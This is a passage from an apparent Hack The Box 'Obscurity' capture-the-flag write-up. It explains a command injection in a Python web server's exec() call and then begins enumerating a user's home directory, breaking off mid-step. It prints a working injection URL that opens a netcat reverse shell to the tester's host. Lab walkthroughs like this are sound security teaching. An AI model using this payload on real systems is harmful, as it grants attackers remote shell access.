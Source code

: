 By doing some code-analysis, is possible to see that the function `serveDoc()` is vulnerable to a command injection in its line `exec(info.format(path)) # This is how you do string formatting, right?` this is because it's making use of [exec](https://docs.python.org/2.0/ref/exec.html) which is not even being sanitized, so in other words...there is being used a function which executes stuff at OS level while not sanitized, so this is our RCE :)

Pst: The hyperlink against the doc of `exec` points to 2.0 because when I did this machine, python 2.x was still alive, and then I just went to read of exec on that version.

## RCE

Knowing that the webserver is vulnerable to a command injection, I started to do some trial/error in differents ways, after some time and a little POC I ended getting a reverse shell by executing:

```console
http://10.10.10.168:8080/';os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 4444 >/tmp/f');'
```

{{< image src="/images/htb/obscurity/1-rce.png" position="center" style="border-radius: 8px;" >}}

## user

Once inside a reverse, I start doing some normal linux enumeration, after a few minutes I see there is a user called `robert` and I list the contents of it's home:

```console
www-data@obscure:/home/robert$ ls -la /home/robert
total 60
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 .
drwxr-xr-x 3 root   root   4096 Sep 24 22:09 ..
lrwxrwxrwx 1 robert robert    9 Sep 28 23:28 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3771 Apr  4  2018 .bashrc
drwx------ 2 robert robert 4096 Oct  5 13:09 BetterSSH
drwx------ 2 robert robert 4096 Oct  3 16:02 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26 23:08 check.txt
drwxr-x--- 3 robert robert 4096 Dec  2 09:53 .config
drwx------ 3 robert robert 4096 Oct  3 22:42 .gnupg
drwxrwxr-x 3 robert robert 4096 Oct  3 16:34 .local
-rw-rw-r-- 1 robert robert  185 Oct  4 15:01 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4 15:01 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2514 Oct  4 14:55 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25 14:12 user.txt
```

So, we need to compromise `robert` and in it's home lies the path...in the ls is possible to see some interesting files/directorys: `BetterSSH`, `SuperSecureCrypt.py`, `out.txt`, `check.txt` and `passwordreminder.txt`, we start by checking the content of everything:

First, the directory BetterSSH looks interesting, but we can't see what's inside, so let's take note of this as might come handy later.

`check.txt` has an interesting message:
